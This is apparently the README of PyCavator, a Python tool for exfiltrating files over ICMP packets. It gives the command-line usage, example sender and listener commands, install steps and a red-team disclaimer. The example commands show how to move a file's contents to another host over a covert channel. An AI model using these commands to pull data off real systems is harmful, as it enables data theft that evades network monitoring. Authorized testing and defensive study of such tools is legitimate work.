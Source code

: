# PyCavator

 PyCavator.py is a Python tool that can be used to exfiltrate data over a network based on a defined protocol. It can send and receive data using ICMP packets.

## Usage

```bash
usage: PyCavator.py [-h] [-l] [-f FILE] [-d ADDRESS] [-s ADDRESS] [-p PROTOCOL] [-w WRITE] [-o FOLDER]
                    [--merge] [-x PREFIX] [-a START_SUFFIX] [-b END_SUFFIX] [-e EXTENSION]

Send and receive data using ICMP packets.

options:
  -h, --help            show this help message and exit
  -l, --listen          listen for incoming data (default: send data)
  -f FILE, --input_file FILE
                        input file to exfiltrate (required in sender mode)
  -d ADDRESS, --dst_addr ADDRESS
                        destination IP address (required in sender mode)
  -s ADDRESS, --src_addr ADDRESS
                        source IP address to listen for (required in listener mode)
  -p PROTOCOL, --protocol PROTOCOL
                        protocol to use (icmp)
  -w WRITE, --write WRITE
                        choices to save data (c for chunk OR s to one single file, required in listener mode)
  -o FOLDER, --output_folder FOLDER
                        output folder for received data (optional in listener mode OR required in merge mode)
  --merge               merge output files with part numbers in the specified range (default: False)
  -x PREFIX, --prefix PREFIX
                        prefix of the output file (required in merge mode)
  -a START_SUFFIX, --start_suffix START_SUFFIX
                        start part number suffix (required in merge mode)
  -b END_SUFFIX, --end_suffix END_SUFFIX
                        end part number suffix (required in merge mode)
  -e EXTENSION, --extension EXTENSION
                        extension of the output file (required in merge mode for saving data to single file)

Examples:
  # Sender mode: exfiltrate data from a file
  python PyCavator.py -f input.txt -d 192.168.1.101 -p icmp
  
  # Listener mode: listen for incoming data and save in chunks
  python PyCavator.py -l -s 192.168.1.100 -p icmp -w c
  
  # Listener mode: listen for incoming data and save to a single file
  python PyCavator.py -l -s 192.168.1.100 -p icmp -w s -o output_folder
  
  # Merge mode: merge output files with part numbers in the specified range
  python PyCavator.py --merge -x output -a 1 -b 10 -e txt -o output_folder
```

## Installation

PyCavator.py requires Python 3 to be installed. To install PyCavator.py, clone the repository and install the required Python modules:

```bash
git clone https://github.com/YOUR_USERNAME/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## How to Contribute

If you would like to contribute to PyCavator.py, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International (CC BY-NC-ND 4.0) license. This means that you are free to share and distribute the original work with proper attribution to the original author, but you may not modify the work or use it for commercial purposes. Additionally, any new versions of the work must be distributed under the same license and with proper attribution to the original author. See the [LICENSE](LICENSE) file for details.




